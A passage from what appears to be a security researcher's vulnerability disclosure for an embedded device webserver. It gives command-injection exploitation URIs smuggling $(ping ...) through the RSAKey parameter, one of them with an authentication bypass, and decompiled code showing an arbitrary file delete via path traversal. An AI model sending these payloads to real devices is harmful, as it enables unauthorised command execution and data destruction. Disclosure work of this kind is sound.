 ```c
  shm_sysSetCerGenCheckFlag(0);
  return;
}

```

URI for exploitation:
---
```
/goform/net_WebCSRGen?contury=germany&location=location&company=company&departmnet=department&CA=CA&EA=EA&RSAKey=$(ping -c 1 127.0.0.1)&SUBNAME=SUBNAME
```

URI for exploitation with auth bypass:
---
```
/json/net_WebCSRGen?contury=germany&location=location&company=company&departmnet=department&cert_CA=CA&EA=EA&RSAKey=$(ping -c 1 127.0.0.1)&SUBNAME=SUBNAME
```


## Other Vulnerabilities:
----

This chapter covers some other minor vulnerabilities which wouldn't qualify for a seperate case but I wanted to address anyway so they can get patched. All these are inside the respective `webs` binary (the webserver)


**Arbitrary File Delete**

```C

void net_WebRSAKEYDel(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  undefined8 uVar1;
  longlong lVar2;
  char acStack_148 [264];
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined *local_20;
  
  local_20 = &_gp;
  local_40 = param_1;
  local_38 = param_2;
  local_30 = param_3;
  uVar1 = websGetVar(param_1,"rsakeyname",&DAT_120067690);
  lVar2 = Ssys_CheckString(uVar1);		// [1] Check can be "bypassed"/does not check for path traversal
  if (lVar2 < 0) {
    FUN_1200233f4(local_40,0,0);
  }
  else {
    snprintf(acStack_148,0x100,"%s/%s-1024","/mnt/log1/rsakey_file",uVar1);
    unlink(acStack_148);
    snprintf(acStack_148,0x100,"%s/%s-2048","/mnt/log1/rsakey_file",uVar1);
    unlink(acStack_148);
    snprintf(acStack_148,0x100,"%s/%s","/mnt/log1/rsakey_file",uVar1);			// HERE with path traversal, delete what you want
    unlink(acStack_148);
    FUN_120022d68(local_40,0,"All new settings are now active !!!");
  }
  return;
}
```